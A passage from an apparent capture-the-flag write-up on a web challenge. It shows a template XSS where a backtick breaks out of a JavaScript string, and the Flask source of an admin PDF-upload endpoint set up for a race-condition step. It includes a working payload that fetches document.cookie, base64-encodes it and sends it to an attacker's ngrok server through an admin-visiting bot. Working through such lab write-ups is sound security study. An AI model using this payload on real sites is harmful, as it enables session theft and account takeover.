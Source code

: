 We can see that the snippet ``let note = `{{product.note | safe }}`; `` is vulnerable to __XSS__. due to the possibility of `product.note` having the character `` ` ``.

Example: `product.note` = ``<h1>Hello<h1>`; alert(1); var A =  `A``
The result will be as follows:
```html
<script>
    let note = `<h1>Hello<h1>`; alert(1); var A =  `A`;
</script>
```

The idea here is the same: create a product with `note` containing our __XSS__ (``<span>Hello</span>`;fetch('{self.ngrok}/receive?data='+btoa(document.cookie));var i = `A``). Direct the page of the new product to the Admin via the `/challenge/api/report` endpoint.

When the bot opens the page as an administrator, it will execute our __XSS__, collecting the `document.cookie` and sending it to our server.

## Final step: Race Condition

Despite being conceptually simple, this step is the most challenging to execute.

As an administrator, we can use the following endpoints:
`./challenge/application/blueprints/route.py`
```python
@web.route('/admin/contracts')
@isAuthenticated
@isVerified
@isInternal
@isAdmin
def addContract(decodedToken):
    user = getUser(decodedToken.get('id'))
    return render_template('addContracts.html', user=user, antiCSRFToken=decodedToken.get('antiCSRFToken'))
```
`./challenge/application/blueprints/api.py`
```python
@api.route('/addContract', methods=['POST'])
@isAuthenticated
@isVerified
@isInternal
@isAdmin
@antiCSRF
@sanitizeInput
def addContract(decodedToken):
    name = request.form.get('name', '')

    uploadedFile = request.files['file']

    if not uploadedFile or not name:
        return response('All files required!')
    
    if uploadedFile.filename == '':
        return response('Invalid file!')

    uploadedFile.save('/tmp/temporaryUpload')

    isValidPDF = checkPDF()

    if isValidPDF:
        try:
            filePath = os.path.join(current_app.root_path, 'contracts', uploadedFile.filename)
            with open(filePath, 'wb') as wf:
                with open('/tmp/temporaryUpload', 'rb') as fr:
                    wf.write(fr.read())

```